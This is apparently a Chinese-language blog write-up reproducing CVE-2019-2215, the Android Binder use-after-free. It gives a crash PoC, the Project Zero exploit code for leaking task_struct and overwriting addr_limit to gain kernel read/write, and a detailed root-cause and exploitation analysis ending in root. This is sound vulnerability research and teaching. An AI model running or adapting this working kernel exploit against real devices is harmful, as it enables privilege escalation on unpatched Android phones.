

CVE-2019-2215 漏洞复现 - bad binder
影响版本：android kernel 3.18, 4.14, 4.4, 4.9 均受影响
CVE信息：https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2019-2215
补丁：https://github.com/torvalds/linux/commit/7a3cee43e935b9d526ad07f20bf005ba7e74d05b
漏洞验证
环境搭建
补充一个基本环境信息：x86实体机安装ubuntu20.04，安装android studio
下载goldfish源码，patch漏洞到 drivers/android/binder.c，然后编译生成内核文件。
1 | git clone <https://android.googlesource.com/kernel/goldfish> -b android-goldfish-4.4-dev |
如何加载启动该内核文件可参考我之前的文章：android 模拟器 goldfish 环境搭建
poc
poc 来自 project-zero：Issue 1942: Android: Use-After-Free in Binder driver
共有两个poc，一个是触发崩溃的简单poc，另一个poc利用漏洞达成了任意地址读写。
触发系统崩溃的poc如下（需要内核开启KASAN，否则检测不到UAF）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
int main()
{
int fd, epfd;
struct epoll_event event = { .events = EPOLLIN };
fd = open("/dev/binder0", O_RDONLY);
epfd = epoll_create(1000);
epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
ioctl(fd, BINDER_THREAD_EXIT, NULL);
}利用漏洞达成任意地址写的poc
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131
132
133
134
135
136
137
138
139
140
141
142
143
144
145
146
147
148
149
150
151
152
153
154
155
156
157
158
159
160
161
162
163
164
165
166
167
168
169
170
171
172
173
174
175
176
177
178
179
180
181
182
183
184
185
186
187
188
189
190
191
192
193
194
195
196
197
198
199
200
201
202
203
204
205
206
207
208
209
210
211
212
213
214
215
216
217
218
219
220
221
222
223
224
225
226
227
228
229
230
231
232
233
234
235
236
237
238
// NOTE: we don't cover the task_struct* here; we want to leave it uninitialized
void hexdump_memory(unsigned char *buf, size_t byte_count) {
unsigned long byte_offset_start = 0;
if (byte_count % 16)
errx(1, "hexdump_memory called with non-full line");
for (unsigned long byte_offset = byte_offset_start; byte_offset < byte_offset_start + byte_count;
byte_offset += 16) {
char line[1000];
char *linep = line;
linep += sprintf(linep, "%08lx ", byte_offset);
for (int i=0; i<16; i++) {
linep += sprintf(linep, "%02hhx ", (unsigned char)buf[byte_offset + i]);
}
linep += sprintf(linep, " |");
for (int i=0; i<16; i++) {
char c = buf[byte_offset + i];
if (isalnum(c) || ispunct(c) || c == ' ') {
*(linep++) = c;
} else {
*(linep++) = '.';
}
}
linep += sprintf(linep, "|");
puts(line);
}
}
int epfd;
void *dummy_page_4g_aligned;
unsigned long current_ptr;
int binder_fd;
void leak_task_struct(void)
{
struct epoll_event event = { .events = EPOLLIN };
if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");
struct iovec iovec_array[IOVEC_ARRAY_SZ];
memset(iovec_array, 0, sizeof(iovec_array));
iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 0x1000; /* wq->task_list->next */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x1000;
int b;
int pipefd[2];
if (pipe(pipefd)) err(1, "pipe");
if (fcntl(pipefd[0], F_SETPIPE_SZ, 0x1000) != 0x1000) err(1, "pipe size");
static char page_buffer[0x1000];
//if (write(pipefd[1], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "fill pipe");
pid_t fork_ret = fork();
if (fork_ret == -1) err(1, "fork");
if (fork_ret == 0){
/* Child process */
prctl(PR_SET_PDEATHSIG, SIGKILL);
sleep(2);
printf("CHILD: Doing EPOLL_CTL_DEL.\n");
epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
printf("CHILD: Finished EPOLL_CTL_DEL.\n");
// first page: dummy data
if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
close(pipefd[1]);
printf("CHILD: Finished write to FIFO.\n");
exit(0);
}
//printf("PARENT: Calling READV\n");
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
printf("writev() returns 0x%x\n", (unsigned int)b);
// second page: leaked data
if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
//hexdump_memory((unsigned char *)page_buffer, sizeof(page_buffer));
printf("PARENT: Finished calling READV\n");
int status;
if (wait(&status) != fork_ret) err(1, "wait");
current_ptr = *(unsigned long *)(page_buffer + 0xe8);
printf("current_ptr == 0x%lx\n", current_ptr);
}
void clobber_addr_limit(void)
{
struct epoll_event event = { .events = EPOLLIN };
if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");
struct iovec iovec_array[IOVEC_ARRAY_SZ];
memset(iovec_array, 0, sizeof(iovec_array));
unsigned long second_write_chunk[] = {
1, /* iov_len */
0xdeadbeef, /* iov_base (already used) */
0x8 + 2 * 0x10, /* iov_len (already used) */
current_ptr + 0x8, /* next iov_base (addr_limit) */
8, /* next iov_len (sizeof(addr_limit)) */
0xfffffffffffffffe /* value to write */
};
iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1; /* wq->task_list->next */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10; /* iov_len of previous, then this element and next element */
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8; /* should be correct from the start, kernel will sum up lengths when importing */
int socks[2];
if (socketpair(AF_UNIX, SOCK_STREAM, 0, socks)) err(1, "socketpair");
if (write(socks[1], "X", 1) != 1) err(1, "write socket dummy byte");
pid_t fork_ret = fork();
if (fork_ret == -1) err(1, "fork");
if (fork_ret == 0){
/* Child process */
prctl(PR_SET_PDEATHSIG, SIGKILL);
sleep(2);
printf("CHILD: Doing EPOLL_CTL_DEL.\n");
epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
printf("CHILD: Finished EPOLL_CTL_DEL.\n");
if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
err(1, "write second chunk to socket");
exit(0);
}
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
struct msghdr msg = {
.msg_iov = iovec_array,
.msg_iovlen = IOVEC_ARRAY_SZ
};
int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
printf("recvmsg() returns %d, expected %lu\n", recvmsg_result,
(unsigned long)(iovec_array[IOVEC_INDX_FOR_WQ].iov_len +
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len +
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len));
}
int kernel_rw_pipe[2];
void kernel_write(unsigned long kaddr, void *buf, unsigned long len) {
errno = 0;
if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len);
if (write(kernel_rw_pipe[1], buf, len) != len) err(1, "kernel_write failed to load userspace buffer");
if (read(kernel_rw_pipe[0], (void*)kaddr, len) != len) err(1, "kernel_write failed to overwrite kernel memory");
}
void kernel_read(unsigned long kaddr, void *buf, unsigned long len) {
errno = 0;
if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len);
if (write(kernel_rw_pipe[1], (void*)kaddr, len) != len) err(1, "kernel_read failed to read kernel memory");
if (read(kernel_rw_pipe[0], buf, len) != len) err(1, "kernel_read failed to write out to userspace");
}
unsigned long kernel_read_ulong(unsigned long kaddr) {
unsigned long data;
kernel_read(kaddr, &data, sizeof(data));
return data;
}
void kernel_write_ulong(unsigned long kaddr, unsigned long data) {
kernel_write(kaddr, &data, sizeof(data));
}
void kernel_write_uint(unsigned long kaddr, unsigned int data) {
kernel_write(kaddr, &data, sizeof(data));
}
// Linux localhost 4.4.177-g83bee1dc48e8 #1 SMP PREEMPT Mon Jul 22 20:12:03 UTC 2019 aarch64
// data from `pahole` on my own build with the same .config
// SYMBOL_* are relative to _head; data from /proc/kallsyms on userdebug
int main(void) {
printf("Starting POC\n");
//pin_to(0);
dummy_page_4g_aligned = mmap((void*)0x100000000UL, 0x2000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
if (dummy_page_4g_aligned != (void*)0x100000000UL)
err(1, "mmap 4g aligned");
if (pipe(kernel_rw_pipe)) err(1, "kernel_rw_pipe");
binder_fd = open("/dev/binder", O_RDONLY);
epfd = epoll_create(1000);
leak_task_struct();
clobber_addr_limit();
setbuf(stdout, NULL);
printf("should have stable kernel R/W now\n");
/* in case you want to do stuff with the creds, to show that you can get them: */
unsigned long current_mm = kernel_read_ulong(current_ptr + OFFSET__task_struct__mm);
printf("current->mm == 0x%lx\n", current_mm);
unsigned long current_user_ns = kernel_read_ulong(current_mm + OFFSET__mm_struct__user_ns);
printf("current->mm->user_ns == 0x%lx\n", current_user_ns);
unsigned long kernel_base = current_user_ns - SYMBOL__init_user_ns;
printf("kernel base is 0x%lx\n", kernel_base);
if (kernel_base & 0xfffUL) errx(1, "bad kernel base (not 0x...000)");
unsigned long init_task = kernel_base + SYMBOL__init_task;
printf("&init_task == 0x%lx\n", init_task);
unsigned long init_task_cred = kernel_read_ulong(init_task + OFFSET__task_struct__cred);
printf("init_task.cred == 0x%lx\n", init_task_cred);
unsigned long my_cred = kernel_read_ulong(current_ptr + OFFSET__task_struct__cred);
printf("current->cred == 0x%lx\n", my_cred);
unsigned long init_uts_ns = kernel_base + SYMBOL__init_uts_ns;
char new_uts_version[] = "EXPLOITED KERNEL";
kernel_write(init_uts_ns + OFFSET__uts_namespace__name__version, new_uts_version, sizeof(new_uts_version));
}本地虚拟机环境中测试结果如下：

漏洞分析
使用epoll监听binder fd时，在内核binder_poll()函数执行流程中，会申请一个大小为0x198的结构体binder_thread，并将其与epoll_entry建立链接。然而，通过 BINDER_THREAD_EXIT 释放binder时，binder_thread_release() 函数会释放binder_thread堆块，却并未将其从epoll_entry的链表上删除。于是后续进程退出时，epoll机制尝试访问这个链表的内容，产生了UAF（kmalloc-512）。
通过第一个poc，分析触发漏洞的调用流程。如下：
fd = open("/dev/binder0", O_RDONLY);对应调用到内核态的
binder_open()函数，代码逻辑不多。在该函数中，主要做了两件事：一是为struct binder_proc申请一块内存，并初始化结构体中的成员。另一件事是将该结构体给filep→private_data。1
2
3
4
5
6
7
8
9
10static int binder_open(struct inode *nodp, struct file *filp)
{
struct binder_proc *proc;
/* ... */
proc = kzalloc(sizeof(*proc), GFP_KERNEL); /* 为 struct binder_proc 申请一块堆空间 */
/* ... */
filp->private_data = proc; /* 其他系统调用可以通过fd访问proc堆块 */
/* ... */
return 0;
}epfd = epoll_create(1000);创建一个epoll句柄，参数表明要监听的描述符数量。
1
2// 申请 struct eventpoll 结构体的位置
epoll_create() -> epoll_create1() -> ep_alloc() -> ep = kzalloc(sizeof(*ep), GFP_KERNEL);epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);注册要监听的事件类型：
- 参数1 — epoll句柄
- 参数2 — 操作类型，有EPOLL_CTL_ADD、EPOLL_CTL_MOD、EPOLL_CTL_DEL三种
- 参数3 — 要监听的描述符
- 参数4 — 要监听的事件，通过
struct epoll_event封装，常见的有 EPOLLIN、EPOLLOUT
这个调用中需要关注两个结构体的申请（struct binder_thread，struct epoll_entry），以及二者是如何联系到一起的（
list_add(&epoll_entry->wait->task_list, &binder_thread->wait->task_list);）。1
2
3
4
5
6
7
8
9
10
11// 申请 struct epitem 结构体的位置
epoll_ctl() -EPOLL_CTL_ADD-> ep_insert() -> epi = kmem_cache_alloc(epi_cache, GFP_KERNEL);
// 申请 struct binder_thread 结构体的位置
epoll_ctl() -EPOLL_CTL_ADD-> ep_insert() -> ep_item_poll() -> binder_poll() -> binder_get_thread() -> new_thread = kzalloc(sizeof(*thread), GFP_KERNEL);
// 申请 struct eppoll_entry 结构体的位置
epoll_ctl() -EPOLL_CTL_ADD-> ep_insert() -> ep_item_poll() -> binder_poll() -> poll_wait() -> ep_ptable_queue_proc() -> pwq = kmem_cache_alloc(pwq_cache, GFP_KERNEL);
// 连接调用链：将 epoll_entry->wait 连接到 binder_thread->wait
epoll_ctl() -EPOLL_CTL_ADD-> ep_insert() -> ep_item_poll() -> binder_poll() -> poll_wait() -> ep_ptable_queue_proc() -> add_wait_queue() -> __add_wait_queue() -> list_add()ioctl(fd, BINDER_THREAD_EXIT, NULL);通过 BINDER_THREAD_EXIT 告知binder驱动，binder线程已退出，于是驱动会将对应的binder_thread对象销毁。
但问题在于 binder_thread_release() 函数中，释放了 binder_thread ，却未删除它跟 epoll_entry 之间建立的链接。后续通过epoll可以继续对 binder_thread 进行一些操作，于是UAF产生了。
1
2// 释放 struct binder_thread 结构体的位置
binder_ioctl() -BINDER_THREAD_EXIT-> binder_thread_release() -> binder_thread_dec_tmpref() -> binder_free_thread() -> kfree(thread);执行完 BINDER_THREAD_EXIT 后，epoll_entry结构体中链接情况如下：
1
2
3
4
5
6struct epoll_entry {
struct list_head llink;
struct epitem *base; -》 指向epitem
wait_queue_t wait; -》链到binder_thread->wait
wait_queue_head_t *whead; -》 指向binder_thread->wait // 漏洞原因：释放binder_thread时，未删除该引用和链接。导致后续检查时以为它还在链表中
};
弄明白binder_thread是如何被释放的后，再看一下后续流程可能使用到该结构体的地方。有两条路径可以触发链表删除操作：
进程退出时调用 do_exit() 函数
1
2// 删除调用链：将 epoll_entry->wait 从 binder_thread->wait 上删除
do_exit() -......-> ep_eventpoll_release() -> ep_free() -> ep_unregister_pollwait() -> ep_remove_wait_queue() -> remove_wait_queue() -> __remove_wait_queue() -> list_del()通过 epoll_ctl() 指定 EPOLL_CTL_DEL
1
2// 另一条删除调用链
epoll_ctl() -EPOLL_CTL_DEL-> ep_remove() -> ep_unregister_pollwait() -> ep_remove_wait_queue() -> remove_wait_queue() -> __remove_wait_queue() -> list_del()
在后续的利用中，我们会选择 epoll_ctl() 这条路径（因为do_exit() 后进程不存在了，也就没法继续下一步利用了）。
另外需要注意，remove_wait_queue() 中会取 binder_thread->wait->lock 锁，所以利用时需要将堆块中该位置的四个字节设置成全0。 在后面exp中的体现是iovec_array[10].iov_base 的 dummy_page_4g_aligned。
漏洞利用
利用的难点在于，只有一个删除链表的操作，如何扩大能力。
作者巧妙地使用了 iovec 的特性，为了完成读和写的功能，分别使用了 “pipe+writev” 和 “socket的recvmsg”。
利用的主要逻辑：
- 使用多个 iovec 结构体占用任意大小的堆块（本例为kmalloc-512）
- 利用UAF漏洞的Use，在一定限度内改写堆块内容，也即
iovec.iov_base和iovec.iov_len - 通过”合理操作“ iovec，读/写改过的 iov_base，达成信息泄露，或者**”任意/固定”地址写**
本例中的”合理操作“使用了 pipe（ fcntl 调整 pipe 大小）以及recvmsg。
信息泄露
通过 “pipe+writev” 可以泄露 binder_thread 中本进程的 task_struct 地址。为什么要泄露这个地址呢？因为这个内核中，thread_info不是存在栈中，而是存放在进程的task_struct中。泄露了task_struct，就得到了 thread_info->addr_limit 的地址，后续利用中改完addr_limit 就可以通过pipe系统调用任意读写内核。
我们来了解一下删除调用链的过程：将 epoll_entry->wait 从 binder_thread->wait 上删除
1 | ep_unregister_pollwait() -> ep_remove_wait_queue() -> remove_wait_queue() -> __remove_wait_queue() -> list_del() |
正常情况下，删除链表的过程如下图所示

由于 struct binder_thread 存在 UAF，假如使用 struct iovec 占用被free的堆块，删除链表的过程如下图所示

可以看到，用于 pipe_write() 的 iovec_array[11].iov_base 被覆盖成了堆地址。所以，如果管道在处理完 iovec_array[10] 后，停下来一会儿（在这期间执行删除链表操作），那么接下来继续使用 iovec_array[11] 时，就会将堆上的内容拷贝到管道缓冲区中，用户态通过读取管道内容就能泄露堆上的信息。恰巧 struct binder_thread->task 中存储了当前进程的 struct task_struct （实在是太巧…），于是进程管理结构的地址就被泄露了。
确认一下两个堆块的属性：
binder_thread的申请
1
new_thread = kzalloc(sizeof(*thread), GFP_KERNEL); // sizeof(strcut binder_thread): 0x198
iov的申请
1
iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL); // sizeof(struct iovec): 0x10
两者都使用了GFP_KERNEL属性，所以，只要大小一样，UAF后就有可能分配到同一堆块（kmalloc-512）。
为了覆盖 struct binder_thread->wait，nr_segs至少需要12个。为了分配到 kmalloc-512 的堆块，nr_regs 需要为 17~32 之间的一个数。我们取20。
信息泄露的poc执行流程如图所示：

poc源码如下：
1 | // leak_pthread.c |
任意地址写
构造任意地址写之前，先回忆一下信息泄露的过程：
信息泄露：
- 使用 pipe writev 占用释放的heap
- Use（删链操作）：使得 writev 中，iov[11].iov_base 被更改为堆地址（即
strcut binder_thread->wait->task_list的地址），恰好堆中有struct task_struct的地址。堆的内容会被写入管道，用户态通过 read pipe 就可以泄露出struct task_struct的地址。
那么，可不可以用 pipe readv 占用释放的heap，从而达到任意地址写呢？答案时不可以，原因如下：
首先，
pipe_read()在成功读取一段内容后，不会在内核中停留，而是直接返回用户态。代码逻辑如下：1
2
3
4
5
6
7
8
9
10
11
12
13if (!pipe->waiting_writers) {
/* syscall merging: Usually we must not sleep
* if O_NONBLOCK is set, or if we got some data.
* But if a writer sleeps in kernel space, then
* we can wait for that data without violating POSIX.
*/
if (ret) // ret是当前成功读取到的数据大小，不为0的话，就从这里回用户态了，不会block
break;
if (filp->f_flags & O_NONBLOCK) {
ret = -EAGAIN;
break;
}
}举个例子，假如管道中有0x100字节的内容，使用
pipe_read()从管道读 0x1000 字节的结果是：将0x100字节读完，然后返回用户态。其次，如果管道中数据为空，pipe_read进内核后，会直接block，完全不会进入处理iov的代码。
1
2
3
4
5
6
7
8for (;;) {
int bufs = pipe->nrbufs; // 如果管道为空，nrbufs为0
if (bufs) {
/* ... */ // iov处理逻辑
}
/* ... */
pipe_wait(pipe);
}所以，想要通过构造如下iovec，使
pipe_read()停在iov_array[11]处，是不可能的。1
2
3
4
5
6
7
8
9
10
11
12iov_array[0].iov_base = 0;
iov_array[0].iov_len = 0;
iov_array[1].iov_base = 0;
iov_array[1].iov_len = 0;
[...]
iov_array[10].iov_base = dummy_addr;
iov_array[10].iov_len = 0;
iov_array[11].iov_base = 0xdeadbeef;
iov_array[11].iov_len = 0x28;
iov_array[12].iov_base = 0xdeadbeef;
iov_array[12].iov_len = 0x8;
[...]
另一个使用iovec并可以接收数据的函数是socket的 recvmsg() 函数，通过传递 MSG_WAITALL 标志，可以让线程在内核中陷入等待，直至接收到指定大小的数据量。
所以，任意地址写的思路如下：
- 使用 socket recvmsg 占用释放的heap
- Use：删链操作使得 recvmsg 内核态中
iov[11].iov_base被更改为堆地址（即strcut binder_thread->wait->task_list的地址，也就是iov[10].iov_len处）。那么下次接收到的信息将被依次写入iov[10].iov_len，iov[11].iov_base，iov[11].iov_len，iov[12].iov_base， 等等。那么现在就可通过控制写入的内容，将iov[12].iov_base改成任意地址（内核态地址，检查的地方已过），iov[12].iov_len改成要写入的长度（这里只需写8个字节，0xfffffffffffffffe）。
这里多写一句，为什么不在一开始将内核地址写到 iovec 中，而是通过删链写？
因为 recvmsg 的处理流程中，将用户态指定的各个 iovec 拷贝进内核 iovec buffer后 ，会检查各个 iovec.iov_base 是否为用户态地址（rw_copy_check_uvector() 函数），如果不是就会返回错误。所以不能从一开始就将内核地址写入 iovec 中。
由于之前检查过，所以在后面这段使用 iovec 的代码里就不重复检查了，只确认一下地址能访问就行。这也是我们能利用成功的关键。
该部分完整代码如下：
1 | // leak_pthread_aaw.c |
调试查看确认正确写好addr_limit：

完成提权
最后，利用pipe封装任意地址读写原语，写掉selinux和cred，完成提权。
完整exp如下：
1 |
|
成功拿到 root shell：

参考文章
P0 - Bad Binder: Android In-The-Wild Exploit
P0 - CVE-2019-2215: Android use-after-free in Binder
Malicious app exploiting CVE-2019-2215 zero-day available in Google Play since March
CVE-2019-2215—android内核binder漏洞分析(2)